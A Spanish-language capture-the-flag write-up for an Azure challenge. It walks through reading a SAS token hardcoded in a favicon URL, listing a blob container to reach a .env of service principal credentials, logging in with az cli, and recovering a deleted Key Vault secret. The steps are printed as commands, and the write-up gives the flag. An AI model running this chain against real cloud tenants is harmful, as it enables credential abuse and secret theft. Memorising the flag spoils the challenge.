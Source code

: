 # The secrets of Azure
Nuestra nueva página se está migrando a la nube, no conocemos mucho este nuevo mundo pero todo el mundo dice que es lo mejor, escalable y seguro así que allá vamos; ¿qué podría salir mal?
![web page](</cloud/azure/secret_vaults/attachments/web.png>)

En la página de Hackiit que el favicon se saque con una petición a un blob que en la propia petición este hardcodeado el SAS token y así poder obtener unos credenciales en el .env. La pista para darse cuenta de esto sería dejar en la página de Hackiit una ruta que sea /azure y que el favicon sea distinto al de las demás rutas que sea el logo de azure:
![favicon](</cloud/azure/secret_vaults/attachments/favicon.png>)
En esta url podemos que está hardcodeado el token de acceso.

*Para listar el blob hay que añadir los parámetros ⁠ restype=container&comp=list ⁠ (https://learn.microsoft.com/en-us/rest/api/storageservices/list-blobs?tabs=microsoft-entra-id)*

En este hay un archivo .env que tiene cert, key, tenant-id y app-id de un service principal el cual se puede usar para loguearse con la az cli https://learn.microsoft.com/en-us/cli/azure/authenticate-azure-cli-service-principal. Para loguearse usar:
```bash
⁠ az login --service-principal -u 0d84c5ea-bbe0-4b69-ab48-a87eec7f385d -p ./.env --tenant e8c69977-4007-4f92-aebc-c61782d516ef
```
Para seguir hay que leer todas las subscripciones que hay: 
```bash
⁠ az account subscription list ⁠
```

Para listar todos los resource groups:
```bash
⁠ az group list
```

Para listar todos los recursos:
```bash
az resource list --resource-group hackiit-ctf ⁠
```

Te das cuenta que hay un keyvault y la gracias es que el secreto que es la flag está en una versión antigua y borrada con muchas versiones previas el SP tiene un custom role.
Podemos mostrar los secretos borrados de los keyvaults con:
```bash
az keyvault secret list-deleted --vault-name dWx0cmFzZWNyZXRoYWNraWl0
```
Para recuperar el secreto ejecutamos:
```bash
az keyvault secret recover --id https://dwx0cmfzzwnyzxroywnrawl0.vault.azure.net/secrets/flag
```
Una vez recuperas el secreto miras la segunda versión y el valor es la flag `ETSIIT_CTF{bl0b_th3_s3cr3t}`. Los secretos se pueden mirar con:
```bash
az keyvault secret show --id https://dwx0cmfzzwnyzxroywnrawl0.vault.azure.net/secrets/flag
```